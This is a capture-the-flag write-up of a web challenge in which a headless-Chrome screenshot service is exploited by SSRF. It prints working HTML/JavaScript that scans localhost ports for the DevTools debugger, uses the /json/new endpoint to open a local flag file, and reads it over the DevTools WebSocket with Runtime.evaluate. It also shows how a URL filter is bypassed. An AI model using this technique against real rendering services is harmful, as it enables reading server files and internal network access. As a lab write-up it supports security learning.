






# Watered Down Watermark as a Service

**Category**: Web \
**Points**: 240 (15 solves) \
**Author**: lamchcl

## Challenge

We took Watermark as a Service and [watered it down](wdwaas.zip). Hopefully you can still [get the flag](https://wdwaas.2021.chall.actf.co/)!

## Overview

We are presented with a beautiful animated site:



Give it something like https://www.google.com and it returns a screenshot with
a subtle watermark:



How does it do this? Using [Puppeteer](https://pptr.dev/), a headless browser:

```javascript
function checkURL(url) {
    const urlobj = new URL(url)
    if(!urlobj.protocol || !['http:','https:'].some(x=>urlobj.protocol.includes(x)) || urlobj.hostname.includes("actf.co")) return false
    return true
}

const browser = puppeteer.launch({
    args: ['--no-sandbox', '--disable-setuid-sandbox']
})

async function visit (url) {
	if (!checkURL(url)) return 'no!!!!'
	let ctx = await (await browser).createIncognitoBrowserContext()
	let page = await ctx.newPage()
	page.on('framenavigated',function(frame){
		if (!checkURL(frame.url())) return 'no!!!!'
	})
	await page.setCookie(thecookie)
	await page.goto(url)
	const imageBuffer = await page.screenshot();
	const outputBuffer = await sharp(imageBuffer)
		.composite([{ input: "dicectf.png", gravity: "southwest" }]) // this was definitely not taken from dicectf trust me
		.toBuffer()
	await page.close()
	await ctx.close()
	return outputBuffer;
}
```

## Solution

Video: [s.mp4](s.mp4)

The code mentions a challenge from Dice CTF:
[Watermark as a Service](https://github.com/tlyrs7314/ctf-writeups/tree/main/DiceCTF2021/Watermark-as-a-Service)
(245 points, 20 solves).

The intended solution for that one was to use Google Cloud API to grab the
docker challenge container. Luckily I remembered seeing an unintended solution
posted in the Dice CTF discord:



Exploit:
1. Find the Chrome DevTools debug port
2. Open a new tab to `file:///app/flag.txt` using the `/json/new` DevTools endpoint
3. Read the flag by connecting to said tab's Web Socket

The method sodaLee used to find the debug port was to use a bunch of `<iframe>`
tags. That won't work here because of this:
```javascript
    // ...
    page.on('framenavigated',function(frame){
        if (!checkURL(frame.url())) return 'no!!!!'
    })
```

If an `<iframe>` fails, it goes to `chrome://network-error/` which `checkURL()`
doesn't like. One way to bypass this is to use `fetch` with `no-cors`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get port</title>
    </head>
    <body>
        <pre id="urls">Hi</pre>
        <script>
            for (let port = 35000; port < 45000; port++) {
                const url = `http://127.0.0.1:${port}`
                fetch(url, {mode: 'no-cors'}).then(res => {
                    urls.textContent += `\n${url}`
                })
            }
        </script>

        <!-- Delay page load to keep script running -->
        <link rel="stylesheet" href="http://difajosdifjwioenriqoewrowifjaoijdaf.com">
    </body>
</html>
```

After starting an `ngrok` server, I sent my HTML page to be rendered. After
tweaking the port range a few times, I got:



Then I sent http://127.0.0.1:40027/json/new?file:///app/flag.txt to the server, giving me:



To extract the ID from the image, I used Tesseract OCR:
```sh
$ tesseract id.png stdout -c tessedit_char_whitelist=0123456789ABCDEF
...
C7F7841F482A9778859C24D8C768FCDE
...
```

Had to fix a few errors manually:
```diff
- C7F7841F482A9778859C24D8C768FCDE
+ C7F7841F4A2A0778859C24D8C768FCDE
```

Then I put the ID into `get_flag.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get flag</title>
    </head>
    <body>
        <script>
            const id = 'C7F7841F4A2A0778859C24D8C768FCDE'
            window.ws = new WebSocket(`ws://127.0.0.1:40027/devtools/page/${id}`)
            ws.onerror = (e => {document.writeln('error')})
            ws.onmessage = (e => { document.writeln("<pre>" + e.data + "</pre>"); })
            ws.onopen = () => {
                ws.send(JSON.stringify({
                    id: 1,
                    method: 'Runtime.evaluate',
                    params: { expression: 'document.body.innerHTML' }
                }))
            }
        </script>
    </body>
</html>
```

Then I sent http://xxxxxxxxxxxx.ngrok.io/get_flag.html to be rendered, which
give me the flag:



Cool challenge!
